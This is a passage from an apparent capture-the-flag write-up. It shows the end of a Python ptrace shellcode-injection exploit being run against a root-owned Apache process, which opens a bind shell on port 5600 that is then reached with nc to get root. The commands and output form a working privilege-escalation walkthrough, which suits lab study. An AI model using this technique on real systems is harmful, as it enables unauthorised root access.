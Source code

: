 ```python
print("Final Instruction Pointer: " + hex(registers.rip))
# Detach from the process.
libc.ptrace(PTRACE_DETACH, pid, None, None)
```
Now we need a process running as root.
### Listing Processes
```console
shaun@doctor:/home$ ps -ef | grep -i apache
root       16034       1  0 10:36 ?        00:00:00 /usr/sbin/apache2 -k start
www-data   16047   16034  0 10:37 ?        00:00:00 /usr/sbin/apache2 -k start
www-data   16048   16034  0 10:37 ?        00:00:00 /usr/sbin/apache2 -k start
www-data   16049   16034  0 10:37 ?        00:00:00 /usr/sbin/apache2 -k start
www-data   16050   16034  0 10:37 ?        00:00:00 /usr/sbin/apache2 -k start
www-data   16051   16034  0 10:37 ?        00:00:00 /usr/sbin/apache2 -k start
shaun      16057   16036  0 10:37 pts/0    00:00:00 grep --color=auto -i apache
```
Apache with pid 16034 is running as root.

### Running the exploit
```console
shaun@doctor:/dev/shm$ python3.8 exploit.py 16034
Instruction Pointer: 0x7faa72081f4a
Injecting Shellcode at: 0x7faa72081f4a
Shellcode Injected!!
Final Instruction Pointer: 0x7faa72081f4c
```
It looked like it ran successfully.

### Checking for open ports
```console
shaun@doctor:/dev/shm$ ss -lt | grep 5600
LISTEN  0       0                0.0.0.0:5600            0.0.0.0:*  
```
We have a port listening on 5600. Lets connect on the port using nc.

### Getting a root shell
```console
shaun@doctor:/dev/shm$ nc 127.0.0.1 5600
id 
uid=0(root) gid=0(root) groups=0(root)
whoami
root
```
And we get a root shell.
